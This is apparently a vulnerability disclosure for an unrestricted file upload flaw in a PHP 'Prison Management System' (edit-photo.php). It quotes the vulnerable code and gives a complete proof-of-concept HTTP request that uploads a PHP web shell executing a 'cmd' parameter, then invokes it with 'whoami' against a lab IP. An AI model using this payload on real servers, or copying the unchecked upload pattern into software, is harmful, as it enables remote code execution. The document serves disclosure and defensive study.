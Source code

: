 Prison Management System - File upload RCE (/Employee/edit-photo.php) 

Vendor Homepage:

```
https://www.sourcecodester.com/sql/17287/prison-management-system.html
```

Version: 

```
V1.0
```

Tested on: 

```
PHP, Apache, MySQL
```

Affected Page:

```
/Employee/edit-photo.php
```

Using `$_FILES['userImage']['tmp_name'])` as the filename on the server can lead to file upload attacks.

```php
if(isset($_POST["btnedit"])){
	$image= addslashes(file_get_contents($_FILES['userImage']['tmp_name']));
	$image_name= addslashes($_FILES['userImage']['name']);
	$image_size= getimagesize($_FILES['userImage']['tmp_name']);
	move_uploaded_file($_FILES["userImage"]["tmp_name"],"../uploadImage/Profile/" . $_FILES["userImage"]["name"]);
	$location="uploadImage/Profile/" . $_FILES["userImage"]["name"];
	$sql = " update tblemployee set photo='$location' where email='$email'";
	if (mysqli_query($conn, $sql)) {
		header("Location: profile.php");
	}else{
		$_SESSION['error']='Editing Was Not Successful';
	}
}
```

Proof of vulnerability:

Upload a jpg, capture the packet, modify the file content to malicious code, and modify the file suffix to php

Request:

```
POST /Employee/edit-photo.php HTTP/1.1
Host: 192.168.150.131
Content-Length: 319
Cache-Control: max-age=0
Origin: http://192.168.150.131
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryHpP9AaD4pW6vykY3
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/Employee/edit-photo.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=90379e534d51402f246c8b8c9ff11b59
Connection: close

------WebKitFormBoundaryHpP9AaD4pW6vykY3
Content-Disposition: form-data; name="userImage"; filename="test.php"
Content-Type: image/jpeg

<?php echo shell_exec($_GET['cmd']);?>
------WebKitFormBoundaryHpP9AaD4pW6vykY3
Content-Disposition: form-data; name="btnedit"


------WebKitFormBoundaryHpP9AaD4pW6vykY3--

```

```
http://192.168.150.131/uploadImage/Profile/test.php?cmd=whoami
```

![image-20240505102939350](/screenshot/image-20240505102939350.png)
